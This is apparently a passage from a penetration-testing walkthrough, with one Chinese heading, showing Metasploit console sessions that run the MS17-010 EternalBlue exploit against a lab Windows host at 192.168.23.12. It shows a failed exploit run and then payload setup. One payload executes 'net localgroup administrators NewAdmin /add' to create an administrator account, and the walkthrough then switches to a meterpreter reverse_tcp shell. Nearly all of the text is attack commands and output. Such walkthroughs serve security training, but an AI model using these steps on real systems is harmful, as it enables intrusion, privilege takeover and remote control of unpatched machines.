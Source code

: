 [*] 192.168.23.12:445 - Starting non-paged pool grooming
[+] 192.168.23.12:445 - Sending SMBv2 buffers
[+] 192.168.23.12:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.23.12:445 - Sending final SMBv2 buffers.
[*] 192.168.23.12:445 - Sending last fragment of exploit packet!
[*] 192.168.23.12:445 - Receiving response from exploit packet
[+] 192.168.23.12:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.23.12:445 - Sending egg to corrupted connection.
[*] 192.168.23.12:445 - Triggering free of corrupted buffer.
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 192.168.23.12:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > 

####  如果执行成功，会进入windows系统的命令行

sf6 exploit(windows/smb/ms17_010_eternalblue) > use 2
[*] Using configured payload windows/x64/exec
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.23.12    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/exec):

   Name      Current Setting                              Required  Description
   ----      ---------------                              --------  -----------
   CMD       net localgroup administrators NewAdmin /add  yes       The command string to execute
   EXITFUNC  thread                                       yes       Exit technique (Accepted: '', seh, thread, process, none)


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs



msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.23.12
rhosts => 192.168.23.12
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
